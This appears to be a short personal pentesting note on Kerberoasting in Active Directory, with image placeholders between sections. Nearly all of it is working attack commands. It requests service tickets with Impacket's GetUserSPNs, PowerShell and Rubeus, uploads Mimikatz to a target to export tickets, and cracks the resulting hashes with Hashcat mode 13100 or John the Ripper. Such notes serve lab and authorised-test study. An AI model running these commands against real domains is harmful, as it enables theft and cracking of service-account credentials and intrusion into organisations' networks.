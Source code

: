 ![[Pasted image 20230117193447.png]]

***Goal Of Kerberoasting : Get TGS & Decrypt Server's Account Hash***

![[Pasted image 20230117193749.png]]

## Method 1: Impacket
**Syntax :-**
```sh
impacket-GetUserSPNs [Domainname/username:passwd] -dc-ip [Domain_IP] -request
```

![[Pasted image 20230117204710.png]]

Then, Crack It With [[Hashcat]]
Hashcat: 13100

## Method 2: Active Directory Module for PowerShell
```powershell
# In target machine's powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "[SPN]"

# Get SPN from Bloodhound or .\Get-SPN.ps1
```
![[Pasted image 20240512224005.png]]

```cmd
# Install Mimikatz on the target machine
lput mimikatz.exe
lput mimilib.dll
lput mimidrv.sys

# Start mimikatz shell
kerberos::list /export
# Search for the name of your kerberos ticket file and copy to Kali Linux
```
![[Pasted image 20240512224857.png]]
```cmd
# Exit mimikatz
exit

lget [filename]     # For a shorter name of the file, use dir /X
```

Finally, use [[John The Ripper]] to crack the hash! #kerberosticketcrack 

## Method 3: Rubeus
```cmd
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```